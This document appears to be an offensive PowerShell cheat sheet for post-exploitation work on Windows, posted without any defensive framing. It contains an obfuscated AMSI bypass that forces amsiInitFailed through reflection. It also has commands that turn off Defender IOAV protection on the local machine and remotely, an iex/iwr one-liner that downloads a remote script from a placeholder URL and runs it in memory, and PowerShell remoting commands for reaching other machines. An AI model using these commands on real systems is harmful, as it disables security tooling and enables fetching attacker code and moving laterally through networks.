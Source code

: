 ##### AMSI Bypass Obscure
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )

##### AMSI Bypass
Set-MpPreference -DisableIOAVProtection $true

##### AMSI Bypass remotely
Invoke-command - ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session <session>

##### PS Download into memory 
iex (iwr http://<url>/<file>.ps1 -UseBasicParsing)

##### Quickly confirm you have remote access to a machine:
Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName <Computer Name>

##### Create new PSSession to Computername
$sesh = New-PSSession -ComputerName <ComputerName>

##### Connect to Session by Session
Enter-PSSession -session <session name ie $sesh>

##### Connect to Session by ComputerName
Enter-PSSession -ComputerName <computer>
